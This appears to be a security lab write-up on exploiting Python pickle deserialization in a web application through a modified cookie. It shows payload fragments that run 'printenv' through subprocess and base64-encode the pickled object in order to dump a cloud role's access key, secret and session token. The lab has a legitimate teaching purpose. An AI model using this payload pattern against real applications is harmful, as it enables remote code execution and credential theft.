 Deserializing untrusted input is a very dangerous operation as the untrusted data could be used to abuse application logic and execute arbitrary code.

In this lab, we will take a look at how to perform pickle deserialization RCE attack on a web  application  

**Objective:** Perform pickle deserialization RCE attack on the web application and retrieve the Role's access key, secret and session token.

=========================================================================

Using python to unpickle the object
![[Pasted image 20210921093729.png]]
The web application might be vulnerable to Pickle Deserialization RCE

Creating Pickle Deserialization RCE payload
![[Pasted image 20210921094005.png]]
	Retrieving Environment variable using subprocess --> `return (subprocess.check_output, (['printenv'],))`
	Pickling and base64 encoding payload
	`pickledData=pickle.dumps(CMD())`
	`base64.b64encode(pickledData)`
	
Modifying cookie value
![[Pasted image 20210921094617.png]]
The Webpage threw an error. The environment variables were dumped
![[Pasted image 20210921094701.png]]
